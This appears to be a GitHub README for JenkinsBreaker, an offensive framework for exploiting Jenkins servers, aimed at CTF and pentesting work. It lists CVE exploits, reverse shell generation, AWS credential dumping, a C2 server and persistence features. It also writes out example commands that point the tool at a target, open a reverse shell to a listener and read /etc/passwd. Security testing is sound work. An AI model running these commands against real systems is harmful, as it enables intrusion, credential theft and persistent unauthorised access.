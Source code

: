 JenkinsBreaker 🏴‍☠️
An Advanced Python Offensive Security Framework for Jenkins Exploitation in CTF and Pentesting Scenarios

🚀 Features
✅ Automated Enumeration & Exploitation (--auto mode)

✅ Exploit Critical CVEs:

CVE-2019-1003029 / CVE-2019-1003030 – Groovy Script RCE

CVE-2024-23897 – Arbitrary File Read via CLI

CVE-2025-31720 / CVE-2025-31721 / CVE-2025-31722 – Custom & Upcoming CVEs Included

✅ Reverse Shell Payload Generation (Bash, Python, Groovy, PowerShell, Metasploit Compatible)

✅ AWS Credential Dumping & Secrets Scanning

✅ CSRF Crumb Handling & Automation

✅ JWT Token Brute-Forcing and Analysis

✅ Post-Exploitation Recon Automation (Auto Upload & Execute linPEAS, pspy)

✅ Report Generation: JSON, Markdown, PDF (via WeasyPrint)

✅ Built-in C2 Server (FastAPI) & Interactive WebSocket Shell

✅ Persistence Techniques (Cron Jobs, Jenkins Pipelines)

✅ Modular Exploit Loading (exploits/ Directory)

📅 Coming Soon (hopefully):

🖥️ Full Visual Interface (TUI & Web UI) using textual and fastapi

🎯 Enhanced Plugin Fuzzer with ML-Based Misconfiguration Detection

📊 Interactive Dashboards for Exploit Results and Reporting

📦 Installation
git clone https://github.com/ridpath/heaplessNights.git
cd heaplessNights/JenkinsBreaker
python3 JenkinsBreaker.py --help  # Auto-creates virtualenv and installs dependencies
⚔️ Example Usage
Automatic Enumeration & Exploitation:
python3 JenkinsBreaker.py --url http://TARGET_IP:8080 --auto --lhost YOUR_IP --lport 4444
Run Specific CVE Exploit:
python3 JenkinsBreaker.py --url http://TARGET_IP:8080 --exploit-cve --target-file /etc/passwd
Generate a Reverse Shell:
python3 JenkinsBreaker.py --generate-shell bash --lhost YOUR_IP --lport 4444
List All Available Commands:
python3 JenkinsBreaker.py --help-commands
📖 Note:
This tool is under active development. A full-fledged UI will soon make managing exploits and post-exploitation workflows more intuitive. Stay tuned for upcoming releases!

